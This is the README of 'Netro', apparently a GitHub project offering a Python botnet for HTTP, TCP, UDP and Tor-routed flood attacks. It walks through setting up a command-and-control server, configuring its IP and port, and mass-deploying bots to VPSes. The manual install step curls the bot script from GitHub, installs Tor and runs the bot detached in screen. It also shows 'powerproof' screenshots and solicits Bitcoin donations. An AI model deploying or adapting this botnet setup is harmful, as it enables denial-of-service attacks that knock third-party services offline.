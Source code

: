 # Netro
An EXPERIMENTAL centralized Python botnet that currently supports HTTP, TCP and UDP flood attacks.


## Table Of Contents
- [Requirements](https://github.com/lilmond/Netro?tab=readme-ov-file#requirements)
- [Latest Updates](https://github.com/lilmond/Netro?tab=readme-ov-file#latest-updates)
- [CNC Installation](https://github.com/lilmond/Netro?tab=readme-ov-file#cnc-installation)
  - [Windows 10 Source Code Download](https://github.com/lilmond/Netro?tab=readme-ov-file#for-windows-users)
  - [Linux Source Code Download](https://github.com/lilmond/Netro?tab=readme-ov-file#for-linux-users)
  - [Setting Up Configuration](https://github.com/lilmond/Netro?tab=readme-ov-file#setting-configuration)
  - [Preparing The CNC](https://github.com/lilmond/Netro?tab=readme-ov-file#preparing-cnc)
- [Bot Installation](https://github.com/lilmond/Netro?tab=readme-ov-file#bot-installation)
  - [Automatic Installation](https://github.com/lilmond/Netro?tab=readme-ov-file#automatic-installation)
  - [Manual Installation](https://github.com/lilmond/Netro?tab=readme-ov-file#manual-installation)
- [Discord / Buy Me A Coffee](https://github.com/lilmond/Netro?tab=readme-ov-file#etc)


![image](https://github.com/user-attachments/assets/0995d4df-27ab-428d-b548-a3f17e903ae4)

Some powerproof (1m hrs capped):

![image](https://github.com/user-attachments/assets/4b6cbeee-9dcb-4fd1-ad9e-4b74b4bc62ea)


# Requirements
- 1 VPS for CNC (please prefer a high-end)
- 1 or as many as you want **Ubuntu 24.04** VPS to deploy some bots. Note that they all must have the same password for the [automatic installation method](https://github.com/lilmond/Netro?tab=readme-ov-file#automatic-installation).
- Basic understanding in coding.

# Latest Updates
- Multiple bot instances to use more available resources.
- Added Tor-TCP, Tor-HCF, Tor-POST and Tor-GET method.


# CNC Installation

Please prefer **Ubuntu 24.04** as your bot servers.

Install the source code into your computer (not in the server), you can however, if you know how to use Linux terminal text editors such as **vim** or **nano**. Any is preferable.

### For Windows Users
You may download the source code via the ZIP file.

![image](https://github.com/user-attachments/assets/32c7b125-d1f3-4f23-a8ce-8d09ecaf7674)


### For Linux Users
For Linux users, you may download the source code via terminal using **git** command. You may install **git** into your system and download **Netro**'s source code using the following commands below:
```bash
sudo apt install git -y
git clone https://github.com/lilmond/Netro
cd ./Netro
```

### Setting Configuration

You may now edit **cnc_config.json**. You have two options, either use a text editor GUI such as **VS Code** or via terminal using **vim** or **nano**.

Replace the **IP**'s value to your VPS server's public IP address where you will install your **CNC** on.
```json
{
    "IP": "68.136.174.102",
    "PORT": 4444
}
```

### Preparing CNC
Now, you can upload **netro_cnc.py** and **cnc_config.json** into your VPS.

You can do this using **scp** command. However, if you have **MobaXterm** installed, you may just log into your SSH and drag-and-drop both of the files into **MobaXterm**'s server file manager.

Using scp command:
```bash
scp netro_cnc.py cnc_config.json root@"cnc server ip":
```

Replace the "cnc server ip" into your CNC server's public IP, and remove the double quotes.

You may then log into your VPS and run the CNC script.
```bash
python3 netro_cnc.py
```

Great, now that you have the CNC server, you can jump into deploying the bots.


# Bot Installation
There are two methods to install the bot, either automatically or manually.

## Automatic Installation
In your computer files, open the bot_installer folder or **cd** into it:
```bash
cd ./bot_installer
```

Edit **bot_servers.txt**, write down the IP address of the VPS you're deploying the bot into.

Edit **bot_password.txt**, write down the password of your VPS. Your servers must have the same password if you're doing this on multiple servers.

Run **bot_installer.py**:
````bash
python3 bot_installer.py
````

## Manual Installation
Log into your SSH server and execute the following commands:
```bash
# Edit your CNC IP here
echo '{"IP": "53.63.182.235", "PORT": 4444}' > cnc_config.json

curl https://raw.githubusercontent.com/lilmond/Netro/refs/heads/main/netro_bot.py > netro_bot.py
curl https://raw.githubusercontent.com/lilmond/Netro/refs/heads/main/useragents.txt > useragents.txt
curl https://raw.githubusercontent.com/lilmond/Netro/refs/heads/main/bot_manual_requirements.txt > bot_manual_requirements.txt
sudo apt update -y && sudo apt upgrade -y
sudo apt install tor -y
sudo apt install python3.12-venv -y
python3 -m venv venv
source venv/bin/activate
pip install -r bot_manual_requirements.txt
sudo service tor start
screen -d -m python netro_bot.py
```


# Etc
Discord: https://discord.com/invite/Bnf3e8pkyj

Buy me a coffee via Bitcoin: 17nXfqRRiSGDpx1XEh3veHA6gyCLAktFk9
